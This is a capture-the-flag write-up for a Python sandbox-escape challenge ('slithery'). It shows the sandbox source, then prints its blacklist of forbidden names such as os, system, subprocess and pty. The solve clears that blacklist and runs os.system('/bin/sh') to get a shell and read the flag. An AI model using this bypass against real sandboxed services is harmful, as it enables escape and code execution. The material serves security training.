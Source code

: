 # slithery (pwn)

We are placed in the following sandbox:
```python
#!/usr/bin/env python3
from base64 import b64decode
import blacklist  # you don't get to see this :p

"""
Don't worry, if you break out of this one, we have another one underneath so that you won't
wreak any havoc!
"""

def main():
    print("EduPy 3.8.2")
    while True:
        try:
            command = input(">>> ")
            if any([x in command for x in blacklist.BLACKLIST]):
                raise Exception("not allowed!!")

            final_cmd = """
uOaoBPLLRN = open("sandbox.py", "r")
uDwjTIgNRU = int(((54 * 8) / 16) * (1/3) - 8)
ORppRjAVZL = uOaoBPLLRN.readlines()[uDwjTIgNRU].strip().split(" ")
AAnBLJqtRv = ORppRjAVZL[uDwjTIgNRU]
bAfGdqzzpg = ORppRjAVZL[-uDwjTIgNRU]
uOaoBPLLRN.close()
HrjYMvtxwA = getattr(__import__(AAnBLJqtRv), bAfGdqzzpg)
RMbPOQHCzt = __builtins__.__dict__[HrjYMvtxwA(b'X19pbXBvcnRfXw==').decode('utf-8')](HrjYMvtxwA(b'bnVtcHk=').decode('utf-8'))\n""" + command
            exec(final_cmd)

        except (KeyboardInterrupt, EOFError):
            return 0
        except Exception as e:
            print(f"Exception: {e}")

if __name__ == "__main__":
    exit(main())
```
It seems like any input we enter is first checked against a blacklist to make sure there are not any disallowed substrings, then appended to some obfuscated code and then executed. Let's see if we can see what is in the blacklist.
```
EduPy 3.8.2
>>> print(blacklist.BLACKLIST)
['__builtins__', '__import__', 'eval', 'exec', 'import', 'from', 'os', 'sys', 'system', 'timeit', 'base64commands', 'subprocess', 'pty', 'platform', 'open', 'read', 'write', 'dir', 'type']
```
Interestingly, `blacklist` is not in the blacklist. So we can just set the blacklist to be an empty list?
```
>>> blacklist.BLACKLIST=[]
```
This seemed to work. Let's see if we can get a shell now.
```
>>> import os;os.system('/bin/sh')

ls
blacklist.py
flag.txt
runner.py
sandbox.py
solver.py
cat flag.txt
flag{y4_sl1th3r3d_0ut}
```
That was simple.
